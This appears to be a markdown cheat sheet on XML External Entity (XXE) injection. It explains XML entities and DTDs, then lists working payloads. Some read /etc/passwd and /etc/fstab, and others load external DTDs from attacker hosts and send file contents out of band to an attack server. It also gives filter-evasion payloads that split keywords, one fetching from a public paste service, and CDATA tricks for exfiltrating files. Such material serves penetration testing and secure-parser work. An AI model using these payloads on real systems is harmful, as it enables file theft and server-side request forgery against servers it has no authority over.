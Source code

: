 External XML Entities (XXE)
=====================

External XML Entity (XXE) injection the process of inserting malicious `xml` tags into fields which either intentionally accept XML or unknowingly allow XML to be parsed on the backend. XXE exploits target the parser which runs server side in order to include resources from the host such as important files. Since the XXE injection often occurs through file uploads the parsed document usually cannot be resolved on the frontend, hence XXE injection is typically performed out of band with a listening server to capture the response from a successful payload.


## XML

Extensible Markup Language is a way of structuring data similar to JSON which has overtaken XML in popularity and largely replaced it in general.

#### XML Structure and Syntax

```xml
<?xml version="1.0"?>
<Person>
	<Name>John Smith</Name>
	<Age>20</Age>
</Person>

```

+ Tags are case sensitive
+ "",'',<,> are illegal characters in XML due to the parser not knowing how to handel them

### Entities and The DTD

Entities operate like variables within the XML document where, once defined, they can be used anywhere throughout the document. XML entities live within a specific part of the XML document known as the DTD.


#### Document Type Definition (DTD)

```xml
<?xml version="1.0"?>
<!DOCTYPE Person [
	<!ENTITY name "John">
]>
<Person>
	<Name>&name;</Name>
	<Age>20</Age>
</Person>
```

##### General Entities

```xml
<!ENTITY generalEntity "arbitrary">

<Usage>&generalEntity;</Usage>
```

##### Parameter Entities

```xml
<!ENTITY % outer "<!ENTITY inner 'parameter'>">

```

+ Only allowed inside the DTD
+ More flexiable and can allow the creation of an entity which contains another entity

##### Predefined

```xml
<specialChars>&#x3C;</specialChars>
```

+ Collections of special characters that might break the document normally

## XXE Types

### Inband

+ XML document is parsed 
+ The XML parser reads the document
+ The output of the parser is rendered/output in a response

### Error Based

+ No output
+ A kind of blind XXE injection

### Out of Band (OOB)

+ Entirely blind
+ No output
+ This requires an attack/observation server 
+ The server receives requests made from an entity in the injected payload
+ If the request comes back then the origin site is vulnerable to OOB XXE
+ This also leads to SSRF (Server Side Request Forgery)


## Attacks && Payloads

### Read System Files

```xml
<?xml version="1.0"?>
<!DOCTYPE XXE [
	<!ENTITY payloadEntity SYSTEM "/etc/passwd">
]>
<out>&payloadEntity;</out>
```
+ Here the SYSTEM keyword retrieves arbitrary resources from a URI `/etc/passwd` to insert into the XML document
+ In this way we can achieve arbitrary read 

#### Include Entities Remotely

```xml
<?xml version="1.0"?>
<!DOCTYPE XXE [
	<!ENTITY payloadEntity SYSTEM "https://callback.free.beeceptor.com/test">
]>
<out>&payloadEntity;</out>
```

### External DTD Payloads

+ Because DTDs can be passed as a URI in a `SYSTEM` call they can be loaded externally by the XML parser

```xml
<?xml version="1.0"?>
<!DOCTYPE DTD [
	<!ENTITY % parameter_entity "<!ENTITY secondary_entity 'PwnFunction'>">
	%parameter_entity%
]>

<payload>&secondary_entity;</payload>
```

### Blind XXE Payloads Using External DTDs

#### External DTD (external_payload.dtd)

```xml
<!ENTITY % grabPasswd SYSTEM "file:///etc/passwd">
	<!ENTITY % wrapper "<!ENTITY send SYSTEM 'http://attacker.server.com/?%grabPasswd;'>">
	%wrapper;
```

+ This will cause the parser to read the contents of `passwd` and store it in the grabPasswd parameter entity
+ This allows the usage of the parameter `grabPasswd` within the DTD
+ Another parameter entity `wrapper` is then created which points to the general entity `send` 
+ When the document is parsed the wrapper entity will spawn the `send` entity as a general entity legally via the external DTD
+ This will then send the contents of `grabPasswd` to the attack server 

#### XXE Payload

```xml
<?xml version="1.0"?>
<!DOCTYPE payload SYSTEM "http://attack.server.com/external_payload.dtd">
<payload>&send;</payload>
```

### Filter Evasion

#### External DTD 

```xml
<!ENTITY % p1 "fi">
<!ENTITY % p2 "le:///etc/pa">
<!ENTITY % p3 "sswd">
<!ENTITY % combined "<!ENTITY pwnFunc SYSTEM '%p1;%p2;%p3;'>">
```

#### Main XML

```xml
<?xml version="1.0" encoding="UTF-8"?>

<!DOCTYPE xxe [
    <!ELEMENT xxe ANY>
    <!ENTITY % a SYSTEM "http://termbin.com/mo28">
    %a;
    %combined;
]>
<return>&pwnFunc;</return>
```
+ This will attempt to bypass filters for keywords such as `file` and `passwd`
+ Extra layers can be added until the filter stops detecting trigger words

### Exfiltration && Pitfalls

+ Since some system files that an attacker may attempt to exfiltrate contain xml syntactic characters like `<,>` a work around must be implemented in order to read these files


#### CDATA

+ The character data syntax, `<![CDATA[ <text> ]]` is a way of telling the XML parser to ignore syntactic characters that may arise within this tag
+ Consider its usage in a external DTD payload bellow

```xml
<!ENTITY % file SYSTEM "file:///etc/fstab">
<!ENTITY % start "<![CDATA[">
<!ENTITY % end "]]>">
<!ENTITY % wrapper "<!ENTITY all '%start;%file;%end;'>">
%wrapper;
```

+ This leads to the creation of a wrapper with the three parameters desired
